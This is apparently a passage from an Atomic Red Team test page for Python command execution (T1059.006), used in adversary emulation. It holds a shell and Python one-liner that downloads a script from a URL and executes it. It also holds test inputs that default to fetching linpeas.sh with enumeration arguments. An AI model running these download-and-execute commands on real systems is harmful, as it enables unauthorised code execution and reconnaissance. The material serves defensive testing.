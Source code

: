 
#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
$which_python -c 'import requests;import os;url = "#{script_url}";malicious_command = "#{executor} #{payload_file_name} #{script_args}";session = requests.session();source = session.get(url).content;fd = open("#{payload_file_name}", "wb+");fd.write(source);fd.close();os.system(malicious_command)'
```

#### Cleanup Commands:
```sh
rm #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Verify if python is in the environment variable path and attempt to import requests library.
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```




<br/>
<br/>

## Atomic Test #2 - Execute Python via scripts
Create Python file (.py) that downloads and executes shell script via executor arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 6c4d1dcb-33c7-4c36-a8df-c6cfd0408be8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Python script name | path | T1059.006.py|
| script_url | Shell script public URL | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | string | T1059.006-payload|
| executor | Payload or script interpreter / executor | string | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|
